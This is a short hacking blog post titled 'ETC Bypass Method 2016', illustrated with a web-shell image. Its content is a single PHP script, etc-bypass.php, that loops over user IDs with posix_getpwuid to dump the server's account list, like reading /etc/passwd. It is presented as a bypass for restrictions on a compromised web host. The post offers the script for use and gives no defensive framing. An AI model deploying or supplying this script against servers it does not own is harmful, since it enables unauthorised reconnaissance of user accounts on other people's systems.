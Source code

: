 ```yaml
---
layout: post
title: ETC Bypass Method 2016
date: 2023-08-26 22:50
tags: [Hacking]
author: theguler
comments: true
categories: [Hacking - Security]
---
```

<!-- wp:image {"id":8236,"width":"404px","height":"auto","sizeSlug":"large","linkDestination":"none"} -->
<figure class="wp-block-image size-large is-resized"><img src="https://farukguler.com/assets/post_images/web-shell.png?w=1024" alt="" class="wp-image-8236" style="width:504px;height:auto" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p><strong>etc-bypass.php</strong></p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">&lt;?php for($uid=0;$uid&lt;2000;$uid++){ //cat /etc/passwd $nothing = posix_getpwuid($uid); if (!empty($nothing)) { while (list ($key, $val) = each($nothing)){ print "$val:"; } print "&lt;br /&gt;"; } } ?&gt;</pre>
<!-- /wp:preformatted -->
